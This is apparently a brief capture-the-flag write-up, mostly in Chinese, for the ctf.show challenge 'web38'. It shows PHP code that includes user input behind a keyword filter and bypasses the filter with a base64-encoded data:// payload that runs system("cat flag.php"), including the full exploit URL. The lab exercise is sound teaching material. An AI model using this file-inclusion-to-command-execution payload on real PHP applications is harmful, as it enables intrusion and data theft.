

# web38

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

既然php伪协议不能用，可以考虑`data`传入

```plaintext
<?php system("cat flag.php"); ?>


PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTsgPz4=
```

即可实现读取`flag.php`

```plaintext
https://48e9096d-f91d-43f4-ba26-266cab994d46.challenge.ctf.show/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTsgPz4= 
```


